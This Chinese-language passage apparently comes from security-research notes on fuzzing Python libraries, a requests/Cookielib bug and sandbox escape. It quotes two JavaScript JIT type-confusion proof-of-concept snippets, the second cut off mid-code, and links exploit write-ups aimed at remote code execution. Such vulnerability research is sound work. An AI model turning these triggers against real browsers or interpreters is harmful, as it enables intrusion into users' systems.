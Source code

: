   每个库都能够去找个针对性的Fuzzer 跑一跑,不过有些Python 库是做系统操作的,**重点挑一些外部数据可以流进来,然后又可以进行处理的**,比如:json,urllib,requests 这些库.本地库找到漏洞有时候利用会比较鸡肋,除非你的渗透对象是云服务(比如SAE 这种只提供一个执行容器的云,那么我们就需要找到一个可以绕过Python 解析器能够直接执行二进制代码的方式来绕过沙盒,如果读者不是很理解这个操作,同样的原理请参考pwn2own 从浏览器到系统system/root 提权),否则能够用利用的地方比较少.这个是我在挖requests 的时候挖到的一个洞,可以在Cookie `max-age` 中设置字符串值触发Cookielib 处理异常,丢弃掉这个Set-cookie 字段,让爬虫无法获取Cookie .传送门:https://github.com/lcatro/Python_CookieLib_0day
  
  上面提到的库都是Python 的代码相互调用,但是有一些库是能触发二进制代码的,比如:http://www.freebuf.com/articles/network/27817.html
  
  
### Python 内部对象

  说到Python 内部对象,对没有了解过解析器是如何做到远程代码执行的同学推荐几个链接:
  
```

    https://github.com/lcatro/Hacker_Document/blob/master/Flash/Inside%20Flash%20-%20Flash%20Exploit%20Detection%20Uncovered%20.pdf
    https://github.com/lcatro/Hacker_Document/blob/master/Flash/Flash%20%E8%99%9A%E6%8B%9F%E6%9C%BA%E5%86%85%E5%AD%98%E7%AE%A1%E7%90%86%E5%8F%8A%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8.pdf
    https://github.com/lcatro/Hacker_Document/blob/master/Browser/IE_Sandbox_Escapes_Presentation.pdf
    https://github.com/lcatro/Hacker_Document/blob/master/Browser/Windows%2010%20x64%20edge%200day%20and%20exploit.pdf
    https://github.com/Microsoft/ChakraCore/commit/db504eba489528434dfb56257b0f202209741fe9
    https://github.com/Microsoft/ChakraCore/commit/0440807190fa814b8c903320385ce35896b823b3
  
```

  对内部对象做一些的操作,最后可以达到RCE (远程代码执行)的结果.我们先看看PoC 是怎么样的(以JavaScript 为例子,Python 版没有找到,原理都差不多的),Link :https://github.com/tunz/js-vuln-db

```

    PoC 1 :

        function opt() {
            let obj = '2.3023e-320';
            for (let i = 0; i < 1; i++) {
                obj.x = 1;
                obj = +obj;
                obj.x = 1;
            }
        }

        function main() {
            for (let i = 0; i < 100; i++) {
                opt();
            }
        }

        main();


    PoC 2 :
    
        function opt() {
            let arr = [];
            return arr['x'];
        }

        function main() {
            let arr = [1.1, 2.2, 3.3];
            for (let i = 0; i < 0x10000; i++) {
                opt();
            }

            Array.prototype.__defineGetter__('x', Object.prototype.valueOf);
```
